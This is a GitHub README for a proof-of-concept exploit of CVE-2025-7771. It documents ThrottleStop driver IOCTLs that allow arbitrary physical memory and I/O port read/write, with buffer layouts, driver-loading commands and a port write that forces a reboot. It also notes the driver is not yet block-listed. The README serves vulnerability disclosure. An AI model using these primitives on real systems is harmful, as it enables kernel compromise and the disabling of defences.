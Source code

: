 # ThrottleStopPoC
**CVE-2025-7771**: Arbitrary physical memory and I/O port read/write via ThrottleStop driver

ThrottleStop is a small legitimate application used to monitor and correct CPU throttling. It has a driver that faciliates these tasks and it mostly doesn't have any sort of input validation.

## Vulnerable IOCTLs
| IOCTL         | Vulnerability             |
| --------------| --------------------------|
| 0x80006498    | Arbitrary memory read     |
| 0x8000649C    | Arbitrary memory write    |
| 0x80006430    | Arbitrary port read       |
| 0x80006434    | Arbitrary port write      |

There also seems to be arbitrary MSR read and write but I wasn't able to get them working.
Feel free to look it yourself.
Read MSR is at `0x80006448` and write at `0x8000644C`.

---
> All of the IOCTL calls mentioned below are implemented in [Exploit.c](src/Exploit.c) file. 
---

### Arbitrary memory read
`0x80006498` IOCTL maps any provided physical address into kernel space using `MmMapIoSpace` and reads 1, 2, 4, or 8 bytes from it. The data is then copied back into user space. 

To trigger this IOCTL, `DeviceIoControl` with physical address as input and output buffer size as read size (1, 2, 4, or 8).

Simplified code for this IOCTL in driver:
```cpp
case 0x80006498: {
    size_t readSize = inputBuffer->Size;   // must be 1,2,4,8
    PHYSICAL_ADDRESS physAddr = inputBuffer->PhysAddr;
    void* mappedAddr = MmMapIoSpace(physAddr, readSize, MmNonCached);

    if (mappedAddr) {
        if (readSize == 1)
            *outputBuffer = *(uint8_t*)mappedAddr;
        else if (readSize == 2)
            *(uint16_t*)outputBuffer = *(uint16_t*)mappedAddr;
        else if (readSize == 4)
            *(uint32_t*)outputBuffer = *(uint32_t*)mappedAddr;
        else if (readSize == 8)
            *(uint64_t*)outputBuffer = *(uint64_t*)mappedAddr;

        MmUnmapIoSpace(mappedAddr, readSize);
    }
}
```

### Arbitrary memory write
Similar to read, `0x8000649C` IOCTL maps provided physical address into kernel space using `MmMapIoSpace` and reads 1, 2, 4, or 8 bytes from it.

To trigger this IOCTL, `DeviceIoControl` with the following input buffer layout:
```cpp
struct {
    ULONGLONG PhysicalAddress;  // 8 bytes
    union {
        BYTE  Value8;
        WORD  Value16;
        DWORD Value32;
        QWORD Value64;
    };
};
```
Input buffer size will be 8 + (1, 2, 4, or 8) depending on write size.

Output buffer and output buffer size are unused.

Simplified code for this IOCTL in driver:
```cpp
case 0x8000649C: {
    size_t writeSize = inputBuffer->Size;  // must be 1,2,4,8
    PHYSICAL_ADDRESS physAddr = inputBuffer->PhysAddr;
    void* mappedAddr = MmMapIoSpace(physAddr, writeSize, MmNonCached);

    if (mappedAddr) {
        if (writeSize == 1)
            *(uint8_t*)mappedAddr = inputBuffer->Value8;
        else if (writeSize == 2)
            *(uint16_t*)mappedAddr = inputBuffer->Value16;
        else if (writeSize == 4)
            *(uint32_t*)mappedAddr = inputBuffer->Value32;
        else if (writeSize == 8)
            *(uint64_t*)mappedAddr = inputBuffer->Value64;

        MmUnmapIoSpace(mappedAddr, writeSize);
    }
}
```

### Arbitrary port read
`0x80006430` IOCTL allows a user to specify an IO port and read from it directly using `__inbyte`, `__inword`, or `__indword`.

Input buffer is a `USHORT` and Input buffer size should be `sizeof(USHORT)`.

Output buffer will hold the result (1, 2, or 4 bytes depending on requested size) and output size can be 1, 2, or 4.

Simplified code for this IOCTL in driver:
```cpp
case 0x80006430: {
    uint16_t port = inputBuffer->PortNumber;
    uint8_t size  = inputBuffer->AccessSize; // 1, 2, or 4

    if (size == 1)
        *outputBuffer = __inbyte(port);
    else if (size == 2)
        *(uint16_t*)outputBuffer = __inword(port);
    else if (size == 4)
        *(uint32_t*)outputBuffer = __indword(port);
}
```

### Arbitrary port write
Similar to port read, `0x80006434` IOCTL allows a user to specify an IO port and write arbitrary values to it with `__outbyte`, `__outword`, or `__outdword`.
The input buffer layout is:
```cpp
struct {
    USHORT PortNumber;
    BYTE   Padding[2];   // alignment
    union {
        BYTE  Value8;
        WORD  Value16;
        DWORD Value32;
    };
};
```
Input buffer size should be sizeof(USHORT) + sizeof(Value) (+ padding).
Output buffer and its size are unused.

Simplified code for this IOCTL in driver:
```cpp
case 0x80006434: {
    uint16_t port = inputBuffer->PortNumber;
    uint8_t size  = inputBuffer->AccessSize; // 1, 2, or 4

    if (size == 1)
        __outbyte(port, inputBuffer->Value8);
    else if (size == 2)
        __outword(port, inputBuffer->Value16);
    else if (size == 4)
        __outdword(port, inputBuffer->Value32);
}
```
---

### Translation of virtual addresses to physical addresses
This translation is possible by abusing Superfetch, a legitimate kernel module that exposes virtual to physical address translation using undocumented APIs.
The code for this is implemented in [vtop.c](src/vtop.c)

## Build 
This project can be compiled using Meson. It reads the `UniqueProcessId` field by resolving the EPROCESS structure of the System process using `PsInitialSystemProcess` and checks if it's `4` (imeplemented in [Main.c](src/Main.c) and the functions for finding EPROCESS of a specific PID are implemented in [EProcess.c](src/EProcess.c)). Additionally, it asks the user if they want to force-restart their system. This is possible by writing `0x0E` value to port `0xCF9`.

> **Warning**: Everything was tested on **Windows 11 build 24H2**. The offsets in the EPROCESS structure might be different on your system.

Build the project by
```
meson setup build
```
It will create the build directory. Now compile the project with
```
meson compile -C build
```

The driver is available at `Drivers` directory of the repository. ThrottleStop drivers can be directly extracted from `ThrottleStop.exe` program via Resource Hacker. You'll find 2 drivers - x64 and x86. `DriverObject->MajorFunction[14]` holds the dispatch function where all the IOCTLs have been implemented.

Create and start driver using:
```
sc create ThrottleStop binPath="<Path>" type=kernel
sc start ThrottleStop
```

## References
https://github.com/jonomango/superfetch

This driver hasn't yet been added to Microsoft driver block list nor [loldrivers](https://loldrivers.io).
